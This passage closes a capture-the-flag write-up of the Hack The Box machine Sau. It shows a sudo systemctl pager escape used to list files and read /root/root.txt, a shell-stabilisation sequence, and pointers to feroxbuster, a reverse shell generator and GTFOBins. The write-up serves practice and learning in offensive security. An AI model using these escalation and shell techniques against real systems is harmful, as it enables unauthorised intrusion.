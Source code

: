 ```
!llss!ls
CHANGELOG     core    maltrail-sensor.service  plugins		 thirdparty
CITATION.cff  docker  maltrail-server.service  requirements.txt  trails
LICENSE       h       maltrail.conf	       sensor.py
README.md     html    misc		       server.py
```
We can see that we can run the `ls` command. Then, I do the same to get the `root.txt` flag:
```
!cat /root/root.txt
a[...]0
```
## Learning from other writeups
### Official writeup
In the official writeup, the sequence is pretty much the same to get a foothold. I just note something interesting to get a nice prompt without using Python:
```
script /dev/null -c bash
# Ctrl + z
stty -raw echo; fg
# Enter (Return) x2
```
### 0xdf writeup
In [0xdf wruteup](https://0xdf.gitlab.io/2024/01/06/htb-sau.html), it uses [feroxbuster](https://github.com/epi052/feroxbuster) to "enumerate and access resources that are not referenced by the web application, but are still accessible by an attacker." It is not useful in this case but it is a tool I will definitely put in my toolbox.
## Lessons learned
This box was pretty straightforward for me. It was easy to find the vulnerabilities and to exploit them. This is due to the toolbox I am building from little to little. Indeed, using [Reverse Shell Generator](https://www.revshells.com/) to craft the command to get a reverse shell, and [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo) to find how to exploit systemctl help a lot.
